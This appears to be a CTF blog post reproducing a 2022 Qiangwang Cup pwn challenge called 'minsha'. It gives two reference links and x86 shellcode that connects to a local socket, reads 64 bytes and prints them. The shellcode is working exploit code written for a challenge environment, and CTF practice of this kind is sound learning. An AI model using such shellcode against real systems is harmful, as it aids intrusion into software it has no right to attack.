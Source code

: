 ```yaml
---
title: 2022 强网杯 线下赛 复现
date: 2023-09-26 07:54:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=72/
pin: false
published:
---
```




## minsha

https://cloud.tencent.com/developer/article/2105254

https://blog.csdn.net/m0_37947204/article/details/80489431

```assembly
global _start
_start:

        ;// socket(AF_INET,SOCK_STREAM,IPPROTO_IP)
        xor ebx,ebx
        mul ebx
        inc ebx ; //socket
        push edx
        push ebx
        push 0x2
        mov ecx,esp
        mov al,0x66
        int 0x80

        ;// connet(socket,(struct sockaddr *)&serv_addr,sizeof(struct sockaddr_in))
        push 0x100007f
        push 0xcdea0002
        mov ecx,esp
        push 0x10
        push ecx
        push eax
        mov bl,3
        mov ecx,esp
        mov al,0x66
        int 0x80

        ;//read(socket,esp,64)
        pop ebx
        mov ecx, esp
        mov dl, 64
        mov al,3
        int 0x80

        ;//write(1, esp, 64)
        xor ebx, ebx
        mov bl, 1
        mov al, 4
        int 0x80

        xor ebx,ebx
        mov al,1
        int 0x80
```



